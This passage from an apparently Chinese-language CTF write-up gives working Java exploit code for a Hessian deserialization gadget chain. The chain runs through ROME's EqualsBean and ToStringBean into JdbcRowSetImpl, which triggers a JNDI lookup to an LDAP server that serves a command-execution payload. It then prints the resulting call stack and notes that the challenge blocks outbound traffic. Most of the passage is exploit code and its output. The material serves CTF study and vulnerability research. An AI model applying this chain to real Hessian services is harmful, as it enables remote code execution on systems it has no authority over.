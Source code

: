 ```java
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }

    public static void main(String[] args) throws Exception {
        String jndiUrl = "ldap://127.0.0.1:1389/TomcatBypass/Command/calc";
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(jndiUrl);
        jdbcRowSet.setMatchColumn("foo");

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);

        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap hashMap = makeMap(root,"1");

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.writeObject(hashMap);
        hessian2Output.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        hessian2Input.readObject();
    }
}
```
调用栈如下：
```
connect:624, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:158, ToStringBean (com.rometools.rome.feed.impl)
toString:129, ToStringBean (com.rometools.rome.feed.impl)
beanHashCode:198, EqualsBean (com.rometools.rome.feed.impl)
hashCode:180, EqualsBean (com.rometools.rome.feed.impl)
hash:339, HashMap (java.util)
put:612, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
```
这里我打本地的高版本，成功，但题目是不出网的，用不了JNDI，就需要第二种解法了
![](https://img-blog.csdnimg.cn/58e22aa2f1804afdab5107090d5eb154.png)
